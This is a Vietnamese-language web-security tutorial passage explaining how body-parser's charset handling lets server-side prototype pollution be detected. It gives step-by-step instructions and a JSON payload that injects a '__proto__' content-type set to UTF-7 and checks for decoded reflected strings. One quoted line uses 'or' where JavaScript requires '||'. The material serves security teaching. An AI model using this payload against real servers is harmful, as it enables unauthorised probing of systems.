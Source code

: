 Lưu ý rằng đoạn mã sau truyền một đối tượng tùy chọn vào hàm `read()`, được sử dụng để đọc nội dung yêu cầu để phân tích cú pháp. Một trong những tùy chọn này, mã hóa, xác định mã hóa ký tự nào sẽ sử dụng. Mã hóa này có thể được lấy từ chính yêu cầu thông qua lệnh gọi hàm `getCharset(req)` hoặc mặc định là UTF-8.

```js
var charset = getCharset(req) or 'utf-8'

function getCharset (req) {
    try {
        return (contentType.parse(req).parameters.charset || '').toLowerCase()
    } catch (e) {
        return undefined
    }
}

read(req, res, next, parse, debug, {
    encoding: charset,
    inflate: inflate,
    limit: limit,
    verify: verify
})
```

Nếu bạn xem xét kỹ hàm `getCharset()`, có vẻ như các nhà phát triển đã dự đoán rằng tiêu đề `Content-Type` có thể không chứa thuộc tính `charset` rõ ràng, vì vậy họ đã triển khai một số logic để chuyển về chuỗi rỗng trong trường hợp này. Điều quan trọng là, điều này có nghĩa là có thể kiểm soát được thông qua ô nhiễm nguyên mẫu.

Nếu bạn có thể tìm thấy một đối tượng có thuộc tính hiển thị trong phản hồi, bạn có thể sử dụng đối tượng này để thăm dò nguồn. Trong ví dụ sau, chúng ta sẽ sử dụng mã hóa `UTF-7` và nguồn `JSON`. 

1. Thêm một chuỗi mã hóa `UTF-7` tùy ý vào một thuộc tính được phản ánh trong phản hồi. Ví dụ, `foo` trong `UTF-7` là `+AGYAbwBv-`.

2. Gửi yêu cầu. Theo mặc định, máy chủ sẽ không sử dụng mã hóa UTF-7, do đó chuỗi này sẽ xuất hiện trong phản hồi dưới dạng đã mã hóa.

3. Hãy thử làm ô nhiễm nguyên mẫu bằng thuộc tính content-type chỉ định rõ ràng bộ ký tự UTF-7:

```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"default",
    "__proto__":{
        "content-type": "application/json; charset=utf-7"
    }
}
```

4. Lặp lại yêu cầu đầu tiên. Nếu bạn đã làm ô nhiễm thành công nguyên mẫu, chuỗi UTF-7 bây giờ sẽ được giải mã trong phản hồi:

```json
{
    "sessionId":"0123456789",
    "username":"wiener",
    "role":"foo"
}
```
